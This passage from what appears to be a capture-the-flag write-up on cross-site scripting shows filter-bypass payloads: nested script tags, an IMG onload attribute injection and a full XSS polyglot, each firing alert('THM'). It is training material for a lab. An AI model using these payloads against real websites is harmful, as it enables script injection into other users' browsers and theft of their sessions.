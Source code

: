 ![image not found](images/perfpayload8.png)

Well, we know script is removed from the payload, but we can trick it by typing:

```
<sscriptcript>alert('THM');</sscriptcript>
```

The `script` tags will be removed:
```
<script>alert('THM');</script>
```

## Example 5:

Similar to example 1. where we excape the value attribute of an input tag, we can try:

```
"><script>alert('THM');</script>
```

It don't work, because ">" and "<" are filtered out, preventing us from escaping the IMG tag:

![image not found](images/perfpayload9.png)

We can take advantage of additional IMG tag attributes, like the onload event:

```
/images/cat.jpg" onload="alert('THM'); 
```

Result:

![image not found](images/perfpayload10.png)

Easy money.

## Polyglots:

An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all 5 examples, and it would have executed all the code succesfully:

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
